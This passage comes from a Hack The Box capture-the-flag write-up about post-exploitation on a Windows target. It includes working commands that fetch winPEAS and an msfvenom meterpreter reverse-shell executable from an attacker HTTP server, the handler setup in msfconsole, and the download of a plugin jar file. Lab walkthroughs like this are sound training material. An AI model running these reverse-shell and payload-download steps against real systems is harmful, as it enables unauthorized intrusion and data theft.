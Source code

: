 I decided to run winPEAS on the machine:  
```sh
# Local machine
$ cd [<Path to winPEAS.bat>]
$ python3 -m http.server 5555
# Target machine
c:\Users\svc_minecraft> curl -O http://10.10.14.66:5555/winPEAS.bat
c:\Users\svc_minecraft> winPEAS.bat
```

Unfortunately winPEAS hung forever and I couldn't get information out of it.

### Enumerating jar file
I found a jar file `playercounter-1.0-SNAPSHOT.jar` in the `\plugins` folder. I've done a few HTB machines where jar files contained interesting information, so I wanted to downloaded this jar file to my local machine for closer inspection. Not sure how to do this on a Windows machine, I remembered `meterpreter` offered a handy `download` command to download files from remote machine to local machine.

To start a meterpreter session, I created a revershe shell executable with `msfvenom`:
```sh
# Local machine
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=5566 -f exe -o shell.exe  # Note, shell.exe would be easily identified if I was a malicious user
```

Next I moved the executable to the target machine:
```sh
$ python3 -m http.server 5555
# Target machine
C:\Users\svc_minecraft\Desktop> curl -O http://10.10.14.66:5555/shell.exe
```

Then I spawned a `metasploit` session via `$ msfconsole` and configured the Windows meterpreter reverse tcp connection:
```sh
# Local machine
$ msfconsole
msf6> use multi/handler
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set lhost tun0
msf6> set lport 5566
msf6> run
```

Then to connect to the metasploit shell:
```sh
# Target machine
C:\Users\svc_minecraft\Desktop> shell.exe
```
With meterpreter session open, I went back to the plugins folder and downloaded the jar file:
```sh
meterpreter > download playercounter-1.0-SNAPSHOT.jar
```

I unpacked the jar file with:
```sh
# Local machine
$ jar xf playercounter-1.0-SNAPSHOT.jar # Extracted htb/playercounter/Playercounter.class
```
